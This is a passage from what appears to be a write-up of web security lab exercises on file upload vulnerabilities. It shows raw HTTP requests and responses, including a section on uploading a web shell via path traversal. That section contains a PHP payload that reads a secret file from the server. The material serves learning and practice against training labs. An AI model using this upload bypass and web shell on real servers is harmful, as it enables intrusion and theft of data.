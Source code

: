 ```http
-----------------------------164166457611644244961394233847
Content-Disposition: form-data; name="csrf"

leQfCOJuZHpXJv9bIQs5Gf9oryJZe3Ix
-----------------------------164166457611644244961394233847--


# Response from the server on Get request later

HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 06:09:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

LUMjILiOmSL2Q2vrWNVqPouvoTn2SD2q

```

#### Web shell upload via path traversal
Web servers are configured to only accept certain file types however if we bypass that restriction the second line of defense is where server is configured not to execute scripts. Servers generally only run scripts whose MIME type they have been explicitly configured to execute.

These kinds of restrictions are usually applied on the directories where user controlled input is uploaded. But if we find a directory where server is not expecting any user input based files, we might be able to execute scripts in such directories.

Initial request and response :

```http
GET /files/avatars/exploit.php HTTP/1.1
Host: 0a28009e040de909800f26cf001400fa.web-security-academy.net
Cookie: session=YN31gop1B8LZHC9sVp4dOrbxmgqdexsw
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a28009e040de909800f26cf001400fa.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
Connection: keep-alive


HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 06:21:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 13 Aug 2024 06:21:55 GMT
ETag: "37-61f8aa045a340"
Accept-Ranges: bytes
Keep-Alive: timeout=5, max=100
Connection: close
X-Frame-Options: SAMEORIGIN
Content-Length: 55

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
